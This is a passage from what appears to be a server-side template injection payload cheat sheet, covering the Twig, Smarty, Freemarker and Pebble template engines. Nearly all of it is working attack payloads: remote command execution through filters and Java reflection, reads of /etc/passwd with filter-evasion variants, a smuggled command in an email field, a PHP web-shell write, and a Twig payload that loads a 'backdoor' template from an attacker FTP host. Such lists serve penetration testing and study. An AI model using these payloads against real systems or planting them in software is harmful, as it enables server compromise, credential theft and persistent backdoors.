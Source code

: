     {{self}}
    {{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
    {{['id']|filter('system')}}
    {{['cat\x20/etc/passwd']|filter('system')}}
    {{['cat$IFS/etc/passwd']|filter('system')}}

Example with an email passing FILTER\_VALIDATE\_EMAIL PHP.

    POST /subscribe?0=cat+/etc/passwd HTTP/1.1
    email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld

[](#smarty)

Smarty

    {$smarty.version}
    {php}echo `id`;{/php}
    {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

[](#freemarker)

Freemarker

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

[](#freemarker---basic-injection)

Freemarker - Basic injection

The template can be `${3*3}` or the legacy `#{3*3}`

[](#freemarker---code-execution)

Freemarker - Code execution

    <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
    [#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
    ${"freemarker.template.utility.Execute"?new()("id")}

[](#pebble)

Pebble

[](#pebble---basic-injection)

Pebble - Basic injection

    {{ someString.toUPPERCASE() }}

[](#pebble---code-execution)

Pebble - Code execution

Old version of Pebble ( \< version 3.0.9): `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`.

New version of Pebble :

    {% set cmd = 'id' %}
    {% set bytes = (1).TYPE
         .forName('java.lang.Runtime')
         .methods[6]
         .invoke(null,null)
         .exec(cmd)
         .inputStream
         .readAllBytes() %}
    {{ (1).TYPE
         .forName('java.lang.String')
         .constructors[0]
         .newInstance(([bytes]).toArray()) }}
